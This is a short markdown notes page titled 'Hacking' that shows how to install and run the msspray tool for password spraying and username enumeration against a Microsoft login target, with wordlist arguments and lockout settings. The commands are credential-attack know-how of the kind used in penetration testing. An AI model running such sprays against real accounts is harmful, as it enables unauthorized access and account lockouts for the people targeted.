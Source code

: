 # Hacking

## Enumeration

### Account spray

https://github.com/0xZDH/msspray

```bash
pip3 install selenium
wget https://github.com/mozilla/geckodriver/releases/download/v0.26.0/geckodriver-v0.26.0-linux64.tar.gz
tar -xvf geckodriver-v0.26.0-linux64.tar.gz
export PATH=$PATH:$(pwd) # Add the current directory with the geckodriver to the PATH

# password spray
python3 msspray.py -t https://<target website> -u usernames.txt -p passwords.txt --count 2 --lockout 5 --verbose

# user enum
python3 msspray.py -t https://<target website> -u usernames.txt -e --verbose
```

